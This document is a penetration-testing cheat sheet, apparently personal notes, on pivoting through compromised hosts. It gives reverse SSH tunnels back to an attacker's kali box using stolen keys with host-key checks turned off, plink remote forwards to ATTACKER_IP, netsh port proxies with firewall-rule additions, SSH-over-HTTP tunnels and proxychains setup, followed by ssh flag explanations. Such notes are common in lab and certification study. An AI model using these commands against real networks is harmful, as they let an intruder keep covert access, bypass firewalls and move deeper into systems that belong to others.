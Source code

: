 #### Linux Firewall check
```
 /etc/iptables
```
#### Windows Firewall check
```
netsh advfirewall show currentprofile
```

#### Reverse Tunnel
On compromised host, forward port 22 on $IP to port 1122 and forward 3306 on $IP to port 13306

##### kill prior tunnels using ports
```
sudo netstat -tulpn
kill PID
```
```
ssh -f -N -R 1122:$IP:22 -R 13306:$IP:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/tmp/keys/id_rsa kali@$myIP
```

#### Reverse Dynamic Port Forward
```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@$myIP
```




#### Local tunnel
```
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@ownedIP
```


#### SSH dynamic tunnel
```
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@ownedIP
sudo ssh -N -D 127.0.0.1:8130 user@ownedIP
ssh -N -D 127.0.0.1:8130 user@ownedIP -oKexAlgorithms=+diffie-hellman-group1-sha1 -vv -p 8888
```

#### SSH Remmote tunnel
```
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```
#### Proxy tunnel
```
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128
# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
ssh user@127.0.0.1 -p 5555
```

#### Tunnel to specific service port on compromised box
```
ssh -N -L 0.0.0.0:PORT:127.0.0.1:ServicePort user@$(cat ip)
```
#### Remote port forwarding
```
C:\plink.exe -ssh -l kali -pw PASSWORD -R 192.168.119.166:1234:127.0.0.1:3306 192.168.119.166
```

#### local port forwarding
```
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.166.10 connectport=445 connectaddress=172.16.166.5

netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip 192.168.166.10 localport=4455 action=allow
```
#### SSH over HTTP

```bash
### compromised host
ssh -L 0.0.0.0:8888:TARGET:PORT user@127.0.0.1
hts --forward-port localhost:8888 1234
### attack box
htc --forward-port 8080 compromised:1234
rdesktop 127.0.0.:8080
```


# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22
```
hts -F localhost:22 80
```
# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80
```
htc -F 8080 192.168.1.15:80
```
# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22
```
ssh localhost -p 8080
```


direct tools to use proxy with **ProxyChains**

```
/etc/proxychains4.conf
socks4     127.0.0.1 8130
```

**To run through our SOCKS4 proxy prepend each command with proxychains**

```
sudo vim /etc/proxychains4.conf
sudo proxychains4 nmap -S -sT -Pn -e tun0
```

- ProxyChains will attempt to read its configuration file first from the current directory
- then from $(HOME)/.proxychainsdirectory
- and then from /etc/proxychains4.conf
- This allows tools through multiple dynamic tunnels


#### Flags for SSH
```
-R [bind_address:]port:host:hostport
-R [bind_address:]port:local_socket
-R remote_socket:host:hostport
-R remote_socket:local_socket
-R [bind_address:]port
```
Specifies that connections to the given TCP port or Unix socket on the remote (server) host are to be forwarded to the local side. 

This works by allocating a socket to listen to either a TCP port or to a Unix socket on the remote side. Whenever a connection is made to this port or Unix socket, the connection is forwarded over the secure channel, and a connection is made from the local machine to either an explicit destination specified by host port hostport, or local_socket, or, if no explicit destination was specified, ssh will act as a SOCKS 4/5 proxy and forward connections to the destinations requested by the remote SOCKS client.

```
-L [bind_address:]port:host:hostport
-L [bind_address:]port:remote_socket
-L local_socket:host:hostport
-L local_socket:remote_socket
```
Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side. 

This works by allocating a socket to listen to either a TCP port on the local side, optionally bound to the specified bind_address, or to a Unix socket. Whenever a connection is made to the local port or socket, the connection is forwarded over the secure channel, and a connection is made to either host port hostport, or the Unix socket remote_socket, from the remote machine

Port forwardings can also be specified in the configuration file. Only the superuser can forward privileged ports. IPv6 addresses can be specified by enclosing the address in square brackets.
By default, the local port is bound in accordance with the GatewayPorts setting. However, an explicit bind_address may be used to bind the connection to a specific address. The bind_address of "localhost" indicates that the listening port be bound for local use only, while an empty address or '*' indicates that the port should be available from all interfaces


```
-f 
```
Requests ssh to go to background just before command execution. This is useful if ssh is going to ask for passwords or passphrases, but the user wants it in the background. This implies -n. The recommended way to start X11 programs at a remote site is with something like ssh -f host xterm

```
-N 
```
Do not execute a remote command. This is useful for just forwarding ports.

```
-D [bind_address:]port
```
Specifies a local "dynamic" application-level port forwarding. This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address. Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine. Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server. Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.



